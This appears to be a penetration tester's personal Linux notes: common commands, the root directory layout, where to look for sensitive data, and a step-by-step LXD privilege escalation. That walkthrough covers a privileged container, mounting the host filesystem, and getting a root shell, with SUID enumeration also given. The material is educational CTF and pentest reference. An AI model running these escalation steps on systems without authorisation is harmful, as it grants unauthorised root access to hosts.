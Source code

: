 # Linux

I wanted to list some concepts, terms and flows that are specific to Linux. Learning more about Linux has made me a better and more effcient pentration tester.

## Basic Commands

There are some commands that I use all the time. I have put together a list of the most common commands I use while doing a capture the flag event. All the commands have optional flags that can enhance what the commands do. When I need help with a command I run `man <command>` to get a more detailed description of each command. Here are the most common commands that I use:

| Command | Purpose |
| ------------- | -------------- |
| `ls` | Lists files and directories in the current location. |
| `cd` | Changes the current directory. |
| `pwd` | Prints the current working directory. |
| `mkdir` | Creates a new directory. |
| `rm` | Removes files or directories. |
| `cp` | Copies files or directories. |
| `mv` | Moves or renames files and directories. |
| `touch` | Creates an empty file or updates timestamps. |
| `cat` | Displays file contents. |
| `nano` or `vim` | Opens a text editor, nano is more beginner friendly. |
| `chmod` | Changes file permissions. |
| `chown` | Changes file ownership. |
| `find` | Searches for files and directories. |
| `grep` | Searches text using patterns (regex). |
| `ps aux` | Lists all running processes. |
| `kill` | Terminates processes by PID or name. |

## Directories

It helps to have a basic understanding of the directories at the root `/` level of Linux. Here are the directories and a description of what they do:

| Directory | Description |
| ------------- | -------------- |
| `/bin` | Essential user binaries (e.g., `ls`, `cp`, `mv`) needed for basic system operation. Most of the commands in the previous section are here. |
| `/boot` | Files needed for booting the system (e.g., GRUB, Linux kernel). |
| `/dev` | Device files (e.g., `/dev/sda` for disks, `/dev/null`).  |
| `/etc` | System-wide configuration files and settings. These files are critical for the system. |
| `/home` | User home directories (e.g., `/home/kwmd`). The `root` user does not have their home directory here. |
| `/lib` | Essential shared libraries used by binaries in `/bin` and `/sbin`. |
| `/lib64` | 64-bit versions of libraries (on 64-bit systems). |
| `/media` | Mount point for removable media (e.g., USB drives, CDs). |
| `/mnt` | Temporary mount point for filesystems (manually mounted drives). |
| `/opt` | Optional or third-party software packages. |
| `/proc` | Virtual filesystem providing process and kernel information. In Linux everything is a file including processes. |
| `/root` | Home directory of the `root` user (not the same as `/`). |
| `/run` | Runtime variable data (e.g., PID files, sockets). |
| `/sbin` | System binaries (administrative commands, e.g., `reboot`, `iptables`). |
| `/srv` | Data for services like FTP, HTTP (e.g., `/srv/www`). |
| `/sys` | Virtual filesystem exposing system and hardware info. |
| `/tmp` | Temporary files (often cleared on reboot). Usually all users have read and write permissions in this directory. |
| `/usr` | Secondary hierarchy for user programs and data (e.g., `/usr/bin`, `/usr/lib`). |
| `/var` | Variable files (logs, mail, spool files, etc.). |

During a penetration test, knowing which directories on a Linux system contain potentially sensitive or valuable information can help with privilege escalation, lateral movement, or data exfiltration. Here are some of the valuable contents in these directories that I am looking for when I do a penetration test:

| Directory | What to Look For |
| ------------- | -------------- |
| `/bin`, `/sbin`, `/usr/bin`, `/usr/sbin` | SUID/SGID binaries (e.g., `find / -perm -4000 2>/dev/null`). Custom or unusual binaries that may reveal misconfigurations or be exploitable. |
| `/boot` | Kernel version (vmlinuz-*) may help identify known kernel exploits. Grub configs (grub.cfg) may expose passwords or kernel boot options. |
| `/dev` | Access to devices like /dev/mem, /dev/kmem, or disks (if permissions are misconfigured). Sometimes misconfigured device files can lead to privilege escalation. |


## LXD (pronounced lex-dee)

LXD is used to manage virtual machines and system containers. It has very minimal overhead. I have used both Docker and Podman in the past and it works very similar to both.

I can create or download an image, start multiple containers from that single image and have them interact with each other.

The lxc command is used to start and stop containers. To use the lxd and lxc binaries my user was in the lxd group. The example below will allow a user that is in the lxd group but not root to do a privilege escalation to root. The neat part is that the user will be root in the container and the host will map the actions of the root user in the container to the root user on the host.

Below is an example of how to download an alpine image from github and then run the container. Some of the file names may have changed but the concept should be the same.

Step 1 - Download the image from github.

```bash
$ git clone https://github.com/saghul/lxd-alpine-builder.git
```

Step 2 - Import the image and alias it as alpine.

```bash
$ cd lxd-alpine-builder
$ lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias alpine
```

I normally check if it imported by running the following:

```bash
$ lxc image list
```

Step 3 - Create a container from the image named kwmd.

```bash
$ lxc init alpine kwmd -c security.privileged=true
```

The security.privileged=true configuration option maps the container uid 0 to the host's uid 0. In other words, the container's user is root and will run as root on the host machine.

Step 4 - Map the host hard drive to the container hard drive, I alias the drive as mydrive in this example.

```bash
$ lxc config device add kwmd mydrive disk source=/ path=/mnt/root recursive=true
```

This mounts the / directory on the host to the /mnt/root directory in the container. This combined with the security.privileged=true in step 3 is very dangerous.

Step 5 - Start the container.

```bash
$ lxc start kwmd
```

Step 6 - Enter the container with a shell.

```bash
$ lxc exec kwmd /bin/sh
```

The cursor will show up as a # character to let me know I am root.

I can now modify view or modify any file on the host directory. I just need to remember to prepend any directory with /mnt/root. Here are some examples:

- The /etc directory on the host would be /mnt/root/etc from the container.
- The /home directory on the host would be /mnt/root/home from the container.
- The /root directory on the host would be /mnt/root/root from the container.

Since I am root in the container and security.privileged=true was set, the host operating system maps any of my root container actions to the root user on the host machine.
